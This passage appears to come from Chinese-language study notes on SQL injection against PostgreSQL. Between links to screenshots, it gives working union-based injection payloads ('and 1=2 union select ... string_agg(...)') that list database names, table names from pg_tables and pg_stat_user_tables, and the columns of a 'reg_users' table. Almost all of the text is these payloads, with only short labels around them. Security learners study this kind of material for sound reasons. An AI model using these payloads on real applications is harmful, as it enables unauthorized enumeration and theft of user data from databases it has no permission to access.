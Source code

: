![image-20250112210256536](.\SQL注入原理.assets\image-20250112210256536.png)

~~~sql
这个是知道数据库前提下的
# -获取数据库名：
and 1=2 union select null,string_agg(datname,','),null,null from pg_database
~~~



~~~sql
-获取表名：
1、and 1=2 union select null,string_agg(tablename,','),null,null from pg_tables where schemaname='public'
2、and 1=2 union select null,string_agg(relname,','),null,null from pg_stat_user_tables
~~~

![image-20250112210613998](.\SQL注入原理.assets\image-20250112210613998.png)

~~~sql
-获取列：
and 1=2 union select null,string_agg(column_name,','),null,null from information_schema.columns where table_name='reg_users'
~~~

![image-20250112211045254](.\SQL注入原理.assets\image-20250112211045254.png)
